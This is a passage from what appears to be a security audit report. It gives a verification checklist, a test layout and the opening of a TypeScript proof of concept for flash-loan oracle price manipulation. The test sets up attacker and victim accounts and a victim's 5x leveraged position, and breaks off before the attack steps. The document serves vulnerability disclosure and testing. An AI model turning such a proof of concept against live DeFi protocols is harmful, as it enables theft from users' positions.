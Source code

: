 6. **Additional Verification**
   - Monitor oracle price updates
   - Track position states throughout attack
   - Verify all protocol bounds are respected
   - Document any failed attempts
   - Test with different position sizes
   - Validate across multiple price points

## Proof of Concept

### Test File Location
```bash
tests/
├── oracle_manipulation.test.ts    # Main PoC implementation
├── helpers/
│   ├── setup.ts                  # Test environment setup
│   ├── accounts.ts               # Test account management
│   └── calculations.ts           # Price and profit calculations
```

### Complete PoC Implementation
```typescript
import { Account, OnChainCalls } from '../helpers/setup';
import { toBigNumberStr, calculateLiquidationProfit } from '../helpers/calculations';
import { expect } from 'chai';

describe('Flash Loan Price Manipulation PoC', () => {
    let onChain: OnChainCalls;
    let attacker: Account;
    let victim: Account;
    let initialPrice: number;
    
    before(async () => {
        // Initialize test environment
        onChain = new OnChainCalls();
        attacker = new Account();
        victim = new Account();
        initialPrice = 100; // $100 initial price
        
        // Fund test accounts
        await fundAccount(attacker.address, '10000');
        await fundAccount(victim.address, '10000');
    });
    
    it('should demonstrate flash loan price manipulation within bounds', async () => {
        // Step 1: Setup victim's vulnerable position
        const depositTx = await onChain.depositToBank({
            coinID: await onChain.getCoinID(victim.address),
            amount: toBigNumberStr(1000, 6) // $1000 collateral
        }, victim);
        expect(depositTx.status).to.equal('success');
        
        const positionTx = await onChain.openPosition({
            size: toBigNumberStr(10, 6),    // 10 tokens
            leverage: 5,                     // 5x leverage
            price: toBigNumberStr(initialPrice, 6)
        }, victim);
        expect(positionTx.status).to.equal('success');
        
        // Step 2: Verify initial state
        const initialPosition = await onChain.getPosition(victim.address);
        expect(initialPosition.size).to.equal(toBigNumberStr(10, 6));
        expect(initialPosition.leverage).to.equal('5');
```